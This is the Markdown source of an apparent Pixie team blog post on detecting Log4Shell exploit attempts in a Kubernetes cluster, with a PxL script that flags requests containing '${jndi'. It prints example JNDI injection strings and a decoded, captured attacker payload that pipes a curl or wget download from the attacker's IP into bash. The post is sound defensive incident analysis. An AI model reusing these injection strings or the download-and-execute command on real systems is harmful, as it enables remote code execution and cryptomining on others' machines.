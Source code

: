 ```yaml
---
path: '/did-i-get-owned-by-log4shell'
title: 'Did I get owned by Log4Shell?'
date: 2021-12-10T06:00:00.000+00:00
featured_image: sos-emergency-exit.png
categories: ['Pixie Team Blogs']
authors: ['Omid Azizi', 'James Bartlett', 'Vihang Mehta']
emails: ['oazizi@pixielabs.ai', 'jamesbartlett@pixielabs.ai', 'vihang@pixielabs.ai']
---
```


_Are your [services impacted](https://www.lunasec.io/docs/blog/log4j-zero-day/#who-is-impacted) by this exploit? If so, start with the [mitigation](https://www.lunasec.io/docs/blog/log4j-zero-day/#permanent-mitigation) first._

Earlier today, [news](https://www.lunasec.io/docs/blog/log4j-zero-day/) broke about a serious 0-day exploit in the popular Java logging library `log4j`. The exploit – called `Log4Shell` – allows remote code execution (RCE) by entering certain strings into the log statement. This can be a serious security vulnerability if a server logs the inputs it receives over a public endpoint.

In this post, we'll show how we used Pixie to quickly check for `Log4Shell` attacks in our Kubernetes cluster.

## How Does Log4Shell Work?

In a nutshell, the `Log4Shell` exploit means that if a string containing a substring of the form `${jndi:ldap://1.1.1.1/a}`  is logged, then you may be exposed to a RCE attack. When this string is logged, `log4j` will make a request to the IP, and get a reference to a class file which will then get loaded into your Java application with JNDI. This means your Java application could then be used to execute arbitrary code of the attacker's choice.

Our goal is not to go into too much detail on `Log4Shell`, since others have already done a great job of that. Instead we're going to focus on how Pixie helped us identify whether we were under attack.

For more details on `Log4Shell`, you can check out this blog, which does a good job of explaining the exploit and mitigation: https://www.lunasec.io/docs/blog/log4j-zero-day.

## Are we being attacked?

We don't deploy Java services at Pixie so we were confident that this wasn't an issue for us. But the team was still curious about whether anyone was trying to attack us. Within minutes, a member of our team, James, put out this [PxL script](https://docs.px.dev/tutorials/pxl-scripts/) which checks for instances of the `Log4Shell` exploit:

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

[log4j only needs to log a string like](https://www.lunasec.io/docs/blog/log4j-zero-day/#example-vulnerable-code) `${jndi:ldap://127.0.0.1/a}` to request and eventually execute a returned payload. [Pixie traces all the HTTP requests](https://docs.px.dev/about-pixie/data-sources/) in your Kubernetes cluster, and stores them for future querying. So in our script, we simply search over the `http_events` table for requests that contain the attack signature -  the `${jndi` string.

Running the script on our cluster, we immediately noticed some `Log4Shell` traffic:

<svg title="Pixie automatically traces all HTTP traffic flowing through your K8s cluster. Checking the HTTP request headers for the exploit signature exposes numerous attack requests on our staging cluster." src='jndi-http-logs.png' />

<svg title="The contents of one of the HTTP attack requests. Note the '${jndi' exploit signature with originating IP address." src='jndi-referrer-details.png' />

The exploit requests were hitting our public cloud-proxy service, where the User-Agent included the exploit string. In this case, the attacker hopes that we use log4j to log the User-Agent value. We investigated the originating IP address, `45.155.205.233` and discovered that it was based in Russia.

Another team member, Vihang, then figured out that the payload of the exploit string is the following:

```bash
$ base64 -d <<< "KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0Myl8YmFzaA=="
(curl -s 45.155.205.233:5874/34.102.136.58:443||wget -q -O- 45.155.205.233:5874/34.102.136.58:443)|bash%
```

The situation around the `Log4Shell` exploit is still evolving, but [tweets](https://twitter.com/GossiTheDog/status/1469322120840708100) indicate that this payload contains a Bitcoin miner.

## Are we leaking?

Now we know that some attacker tried to scan us with the `Log4Shell` exploit. Our next question was whether the attacker succeeded. Again, Pixie doesn’t rely on Java services, but we did want to know how a Java user could detect a successful attack.

A successful exploit requires the attacker to “phone home” with sensitive information, so we need to check if any connections were made back to the `45.155.205.233` IP that we found in the attack.

We can use Pixie’s existing `px/outbound_conns` script to check for this. This script shows a list of connections from our pods made to endpoints outside the k8s cluster. This script has an optional IP filter field that we populate to see if any connections (regardless of protocol) are made to that IP.

In this case, when we run the script, we see that we have no such connections, as expected:

<svg title="Using the `px/outbound_conns` script to check for all outbound connections from our pods, filtered by the IP address of the attacker shows that no connections were returned to the attacking IP." src='outboundconns.png' />

While we caught no such instances, for a user who was using Java, any outbound connections to the attacker would be recorded.

## Check if your cluster is being attacked

When a 0-day exploit is published, there’s a rush by attackers to take advantage. At the same time, developers of cloud services are scrambling to see if they are exposed and to patch any vulnerabilities.

To quickly check if your cluster is being attacked, you can:

1. [Install Pixie](https://docs.px.dev/installing-pixie/install-guides/) on your Kubernetes cluster.
2. Save the following script as `log4shell.pxl`.

```bash
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
df.contains_log4j_exploit = px.contains(df.req_headers, '${jndi') or px.contains(df.req_body, '${jndi')

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

3. Run the custom PxL script using Pixie’s [Live CLI](https://docs.px.dev/using-pixie/using-cli/#use-the-live-cli), using the -f flag to provide the script’s filename:

```bash
px live -f <path to script>/log4shell.pxl
```

If you discover that you are being attacked, you can read about mitigation steps [here](https://www.lunasec.io/docs/blog/log4j-zero-day).

Questions? Find us on [Slack](https://slackin.px.dev/) or Twitter at [@pixie_run](https://twitter.com/pixie_run).
